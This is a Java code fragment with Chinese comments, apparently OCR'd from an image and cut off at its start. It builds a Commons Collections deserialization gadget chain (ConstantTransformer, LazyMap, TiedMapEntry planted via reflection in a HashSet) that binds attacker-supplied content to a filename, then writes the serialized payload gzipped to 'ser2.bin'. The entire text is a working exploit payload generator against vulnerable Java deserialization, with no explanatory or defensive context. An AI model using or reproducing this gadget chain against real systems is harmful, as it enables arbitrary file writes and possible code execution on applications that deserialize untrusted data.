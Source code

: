 ```
        // 创建常量转换器，用于将内容转换为常量
        Transformer ct = new ConstantTransformer(content);
        // 创建懒加载Map，并将转换器应用于该Map
        Map lazyMap = LazyMap.lazyMap((Map) simpleCache, ct);

        // 创建TiedMapEntry对象，将懒加载Map和文件名绑定在一起
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        // 创建HashSet对象，并添加一个元素
        HashSet map = new HashSet(1);
        map.add("foo");

        // 使用反射获取HashSet对象的map字段（或backingMap字段）
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);

        // 使用反射获取HashMap对象的table字段（或elementData字段）
        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] array = (Object[]) f2.get(innimpl);

        // 获取数组中的第一个非空节点
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        // 使用反射设置节点的key字段为TiedMapEntry对象
        Field keyField = null;
        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception e) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);

        // 返回HashSet对象
        byte[] serialize = Serializer.serialize(map);
        String fileName = "ser2.bin";
        FileOutputStream fos = new FileOutputStream(fileName);
        GZIPOutputStream gzip = new GZIPOutputStream(fos);
        gzip.write(serialize);
        gzip.finish();
        fos.close();
    }
}
```  
  